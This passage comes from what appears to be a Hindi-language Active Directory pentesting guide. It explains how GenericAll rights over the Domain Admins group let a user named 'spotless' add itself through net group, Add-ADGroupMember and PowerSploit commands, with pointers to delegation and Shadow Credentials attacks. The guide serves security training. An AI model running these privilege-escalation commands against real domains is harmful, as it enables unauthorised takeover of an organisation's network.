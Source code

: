 ![](../../../.gitbook/assets/4.png)
```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```
हम देख सकते हैं कि हमारे हमलावर उपयोगकर्ता `spotless` को फिर से `GenericAll` अधिकार है:

![](../../../.gitbook/assets/5.png)

इसके परिणामस्वरूप, हमें खुद को (उपयोगकर्ता `spotless`) `Domain Admin` समूह में जोड़ने की अनुमति मिलती है:
```csharp
net group "domain admins" spotless /add /domain
```
![](../../../.gitbook/assets/6.gif)

यही काम Active Directory या PowerSploit मॉड्यूल के साथ भी किया जा सकता है:
```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
## GenericAll / GenericWrite / Computer/User पर लिखें

* यदि आपके पास किसी **कंप्यूटर ऑब्जेक्ट** पर ये विशेषाधिकार हैं, तो आप [Kerberos **Resource-based Constrained Delegation**: Computer Object Take Over](../resource-based-constrained-delegation.md) का उपयोग कर सकते हैं।
* यदि आपके पास एक उपयोगकर्ता पर ये विशेषाधिकार हैं, तो आप इस पेज में [पहले विधि में से एक का उपयोग कर सकते हैं](./#genericall-on-user)।
* या फिर, आपके पास इसे कंप्यूटर या उपयोगकर्ता में होने पर आप **Shadow Credentials** का उपयोग कर सकते हैं:
